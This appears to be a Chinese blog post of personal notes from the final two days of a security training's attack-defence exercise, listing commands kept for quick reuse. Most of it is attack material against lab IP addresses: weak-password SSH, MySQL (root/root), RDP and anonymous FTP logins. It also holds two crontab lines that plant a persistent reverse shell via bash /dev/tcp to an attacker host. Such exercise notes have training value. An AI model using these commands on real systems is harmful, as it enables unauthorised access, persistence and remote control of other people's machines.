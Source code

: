 ```yaml
---
title: 【网络安全1x0a】安恒厂家网络安全培训 --- day11、day12
date: 2020-07-14 22:55:08
tags: [网络安全, kali, vulhub]
---
```


最后两天进行攻防演练实战。

结果还行，搞了个小米音箱，继续努力吧。

记了些脚本，以便快速攻防。



# attack

## 签到

http://192.168.20.158/robots.txt

http://192.168.40.196/robots.txt


## 弱口令

``` bash
ssh chenyf@192.168.20.253

ssh chenyf@192.168.40.200

echo '*/1 * * * * root echo "bash -i >& /dev/tcp/192.168.30.123/110 0>&1" | bash -i' >> /etc/crontab

echo '*/1 * * * * root echo "bash -i >& /dev/tcp/192.168.30.123/120 0>&1" | bash -i' >> /etc/crontab

mysql -h 192.168.20.158 -u root -proot

mysql -h 192.168.40.196 -u root -proot

rdesktop -f -a 16 192.168.20.158:3389

rdesktop -f -a 16 192.168.40.196:3389

ftp 192.168.20.158
anonymous

ftp 192.168.40.196
anonymous
```
